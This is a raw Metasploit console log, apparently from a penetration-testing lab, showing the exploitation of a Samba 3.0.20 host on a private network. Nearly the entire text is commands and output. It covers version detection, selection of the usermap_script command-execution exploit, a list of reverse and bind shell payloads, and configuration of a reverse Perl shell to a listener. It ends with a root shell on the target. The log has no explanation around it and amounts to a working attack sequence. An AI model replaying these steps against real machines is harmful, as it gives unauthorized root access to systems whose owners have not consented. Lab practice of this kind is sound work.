 ## 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
## 445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)

msf6 > search smb_version

Matching Modules
================

   #  Name                               Disclosure Date  Rank    Check  Description
   -  ----                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/smb/smb_version  .                normal  No     SMB Version Detection


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/smb/smb_version

msf6 > use 0
msf6 auxiliary(scanner/smb/smb_version) > show options 

Module options (auxiliary/scanner/smb/smb_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                     no        The target port (TCP)
   THREADS  1                yes       The number of concurrent threads (max one per host)


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/smb/smb_version) > set rhost 192.168.161.131
rhost => 192.168.161.131
msf6 auxiliary(scanner/smb/smb_version) > set rport 139
rport => 139
msf6 auxiliary(scanner/smb/smb_version) > run
[*] 192.168.161.131:139   -   Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 192.168.161.131:      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_version) > search Samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 auxiliary(scanner/smb/smb_version) > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options 

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.161.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/samba/usermap_script) > show payloads 

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/adduser                    .                normal  No     Add user with useradd
   1   payload/cmd/unix/bind_awk                   .                normal  No     Unix Command Shell, Bind TCP (via AWK)
   2   payload/cmd/unix/bind_busybox_telnetd       .                normal  No     Unix Command Shell, Bind TCP (via BusyBox telnetd)
   3   payload/cmd/unix/bind_inetd                 .                normal  No     Unix Command Shell, Bind TCP (inetd)
   4   payload/cmd/unix/bind_jjs                   .                normal  No     Unix Command Shell, Bind TCP (via jjs)
   5   payload/cmd/unix/bind_lua                   .                normal  No     Unix Command Shell, Bind TCP (via Lua)
   6   payload/cmd/unix/bind_netcat                .                normal  No     Unix Command Shell, Bind TCP (via netcat)
   7   payload/cmd/unix/bind_netcat_gaping         .                normal  No     Unix Command Shell, Bind TCP (via netcat -e)
   8   payload/cmd/unix/bind_netcat_gaping_ipv6    .                normal  No     Unix Command Shell, Bind TCP (via netcat -e) IPv6
   9   payload/cmd/unix/bind_perl                  .                normal  No     Unix Command Shell, Bind TCP (via Perl)
   10  payload/cmd/unix/bind_perl_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   11  payload/cmd/unix/bind_r                     .                normal  No     Unix Command Shell, Bind TCP (via R)
   12  payload/cmd/unix/bind_ruby                  .                normal  No     Unix Command Shell, Bind TCP (via Ruby)
   13  payload/cmd/unix/bind_ruby_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   14  payload/cmd/unix/bind_socat_sctp            .                normal  No     Unix Command Shell, Bind SCTP (via socat)
   15  payload/cmd/unix/bind_socat_udp             .                normal  No     Unix Command Shell, Bind UDP (via socat)
   16  payload/cmd/unix/bind_zsh                   .                normal  No     Unix Command Shell, Bind TCP (via Zsh)
   17  payload/cmd/unix/generic                    .                normal  No     Unix Command, Generic Command Execution
   18  payload/cmd/unix/pingback_bind              .                normal  No     Unix Command Shell, Pingback Bind TCP (via netcat)
   19  payload/cmd/unix/pingback_reverse           .                normal  No     Unix Command Shell, Pingback Reverse TCP (via netcat)
   20  payload/cmd/unix/reverse                    .                normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   21  payload/cmd/unix/reverse_awk                .                normal  No     Unix Command Shell, Reverse TCP (via AWK)
   22  payload/cmd/unix/reverse_bash_telnet_ssl    .                normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   23  payload/cmd/unix/reverse_jjs                .                normal  No     Unix Command Shell, Reverse TCP (via jjs)
   24  payload/cmd/unix/reverse_ksh                .                normal  No     Unix Command Shell, Reverse TCP (via Ksh)
   25  payload/cmd/unix/reverse_lua                .                normal  No     Unix Command Shell, Reverse TCP (via Lua)
   26  payload/cmd/unix/reverse_ncat_ssl           .                normal  No     Unix Command Shell, Reverse TCP (via ncat)
   27  payload/cmd/unix/reverse_netcat             .                normal  No     Unix Command Shell, Reverse TCP (via netcat)
   28  payload/cmd/unix/reverse_netcat_gaping      .                normal  No     Unix Command Shell, Reverse TCP (via netcat -e)
   29  payload/cmd/unix/reverse_openssl            .                normal  No     Unix Command Shell, Double Reverse TCP SSL (openssl)
   30  payload/cmd/unix/reverse_perl               .                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   31  payload/cmd/unix/reverse_perl_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   32  payload/cmd/unix/reverse_php_ssl            .                normal  No     Unix Command Shell, Reverse TCP SSL (via php)
   33  payload/cmd/unix/reverse_python             .                normal  No     Unix Command Shell, Reverse TCP (via Python)
   34  payload/cmd/unix/reverse_python_ssl         .                normal  No     Unix Command Shell, Reverse TCP SSL (via python)
   35  payload/cmd/unix/reverse_r                  .                normal  No     Unix Command Shell, Reverse TCP (via R)
   36  payload/cmd/unix/reverse_ruby               .                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   37  payload/cmd/unix/reverse_ruby_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   38  payload/cmd/unix/reverse_socat_sctp         .                normal  No     Unix Command Shell, Reverse SCTP (via socat)
   39  payload/cmd/unix/reverse_socat_tcp          .                normal  No     Unix Command Shell, Reverse TCP (via socat)
   40  payload/cmd/unix/reverse_socat_udp          .                normal  No     Unix Command Shell, Reverse UDP (via socat)
   41  payload/cmd/unix/reverse_ssh                .                normal  No     Unix Command Shell, Reverse TCP SSH
   42  payload/cmd/unix/reverse_ssl_double_telnet  .                normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)
   43  payload/cmd/unix/reverse_tclsh              .                normal  No     Unix Command Shell, Reverse TCP (via Tclsh)
   44  payload/cmd/unix/reverse_zsh                .                normal  No     Unix Command Shell, Reverse TCP (via Zsh)

msf6 exploit(multi/samba/usermap_script) > set payload 30
payload => cmd/unix/reverse_perl
msf6 exploit(multi/samba/usermap_script) > show options 

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.161.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/samba/usermap_script) > set rhosts 192.168.161.131
rhosts => 192.168.161.131
msf6 exploit(multi/samba/usermap_script) > exploit
[*] Started reverse TCP handler on 192.168.161.128:4444 
[*] Command shell session 1 opened (192.168.161.128:4444 -> 192.168.161.131:48042) at 2025-02-04 16:32:45 +0530

id
uid=0(root) gid=0(root)

